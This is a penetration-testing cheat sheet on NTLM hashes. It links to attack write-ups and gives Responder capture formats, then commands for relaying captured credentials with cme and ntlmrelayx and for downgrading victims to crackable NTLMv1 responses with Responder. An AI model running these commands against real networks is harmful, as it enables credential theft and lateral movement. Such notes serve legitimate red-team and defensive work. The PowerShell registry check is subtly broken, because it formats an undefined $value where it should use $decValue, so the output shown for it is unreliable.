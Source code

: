 ```yaml
---
description: NT / LM Hashes
---
```


# NTLM

* [https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/](https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/)




## Calculate NTLM

* [https://www.browserling.com/tools/ntlm-hash](https://www.browserling.com/tools/ntlm-hash)

With Python:

```python
>>> import hashlib
>>> hashlib.new('md4', 'Passw0rd!'.encode('utf-16le')).hexdigest()
```




## Responder Capture Structure

* [https://github.com/lgandx/Responder/blob/eb449bb061a8eb3944b96b157de73dea444ec46b/servers/SMB.py#L149](https://github.com/lgandx/Responder/blob/eb449bb061a8eb3944b96b157de73dea444ec46b/servers/SMB.py#L149)
* [https://ru.wikipedia.org/wiki/NTLMv2#NTLMv2](https://ru.wikipedia.org/wiki/NTLMv2#NTLMv2)
* [https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/](https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/)
* Andrei Miroshnikov. Windows Security Monitoring: Scenarios and Patterns, Part III, pp. 330-333.

`[SMB] NTLMv1 Hash` and `[SMB] NTLMv1-SSP Hash` capture structure:

```
<Username>:<Domain>:<LMv1_Response>:<NTv1_Response>:<Server_Challenge>
```

`[SMB] NTLMv2-SSP Hash` capture structure:

```
<Username>:<Domain>:<Server_Challenge>:<LMv2_Response>:<NTv2_Response>
```




## NTLM Relay

* [https://en.hackndo.com/ntlm-relay/](https://en.hackndo.com/ntlm-relay/)
* [https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/)
* [https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [https://www.secureauth.com/blog/playing-with-relayed-credentials/](https://www.secureauth.com/blog/playing-with-relayed-credentials/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/](https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
* [https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire](https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire)
* [https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/](https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/)
* [https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/](https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/)
* [https://luemmelsec.github.io/Relaying-101/](https://luemmelsec.github.io/Relaying-101/)
* [[PDF] Lateral Movement using Credentials Relaying (taso_x)](https://drive.google.com/file/d/1t8akbdgan7i9Rw0tFEIP223CmHFlTRCH/view?usp=sharing)

Generate relay list with cme and enumerate local admins when relaying:

```
$ cme smb 192.168.2.0/24 --gen-relay-list out.txt
$ sudo ntlmrelayx.py -smb2support --no-http-server -tf out.txt --enum-local-admins -of net-ntlmv2
```




## NTLMv1 Downgrade

* [https://crack.sh/netntlm/](https://crack.sh/netntlm/)
* [https://crack.sh/cracking-ntlmv1-w-ess-ssp/](https://crack.sh/cracking-ntlmv1-w-ess-ssp/)
* [https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi)
* [https://0xdf.gitlab.io/2021/04/10/htb-apt.html#seatbelt](https://0xdf.gitlab.io/2021/04/10/htb-apt.html#seatbelt)

Client sends NTLMv1 response when `LmCompatibilityLevel` exists and is `2` or lower, which can be downgraded to "NTLMv1 w/o SSP" when `NtlmMinClientSec` is `0x20` or lower:

| **Property Name**                                                                                                                                                      | **Property Path**                                  |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------|
| [LmCompatibilityLevel](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level) | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`        |
| [NtlmMinClientSec](http://systemmanager.ru/win2k_regestry.en/85673.htm)                                                                                                | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0` |

Check with PowerShell:

```
PS > (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name LmCompatibilityLevel).LmCompatibilityLevel
2
PS > $decValue = (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ -Name NtlmMinClientSec).NtlmMinClientSec
PS > $hexValue = "0x" + [string]::Format("{0:x}", $value)
PS > $hexValue
0x20
```

Check with [Seatbelt](https://github.com/GhostPack/Seatbelt/blob/fa0f2d94a049d825bef77e103e33167250ed2ac0/Seatbelt/Commands/Windows/NtlmSettingsCommand.cs#L149):

```
Cmd > .\Seatbelt.exe NTLMSettings
```

Exploit with Responder (use Printer Bug to coerce the authentication, for example):

```
$ sudo python Responder.py -I eth0 -v --lm --disable-ess
```

